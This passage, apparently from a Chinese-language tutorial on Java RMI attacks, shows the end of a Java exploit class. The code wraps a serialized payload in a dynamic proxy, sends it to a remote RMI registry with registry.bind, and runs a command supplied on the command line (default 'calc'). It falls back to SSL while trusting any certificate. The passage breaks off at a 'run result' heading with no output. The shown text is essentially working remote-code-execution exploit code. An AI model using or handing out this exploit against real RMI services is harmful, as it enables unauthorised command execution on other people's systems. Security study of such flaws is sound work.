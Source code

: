             // 使用动态代理创建出Remote类型的Payload
            Remote remote = (Remote) Proxy.newProxyInstance(
                    ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, annHandler
            );

            try {
                // 发送Payload
                registry.bind(name, remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }
        }

        public static void main(String[] args) throws Exception {
            if (args.length == 0) {
                // 如果不指定连接参数默认连接本地RMI服务
                args = new String[]{"127.0.0.1", String.valueOf(9879), "calc"};
            }

            // 远程RMI服务IP
            final String host = args[0];

            // 远程RMI服务端口
            final int port = Integer.parseInt(args[1]);

            // 需要执行的系统命令
            final String command = args[2];

            // 获取远程Registry对象的引用
            Registry registry = LocateRegistry.getRegistry(host, port);

            try {
                // 获取RMI服务注册列表(主要是为了测试RMI连接是否正常)
                String[] regs = registry.list();

                for (String reg : regs) {
                    System.out.println("RMI:" + reg);
                }
            } catch (ConnectIOException ex) {
                // 如果连接异常尝试使用SSL建立SSL连接,忽略证书信任错误，默认信任SSL证书
                registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
            }

            // 执行payload
            exploit(registry, command);
        }

    }
    ```
    运行结果：
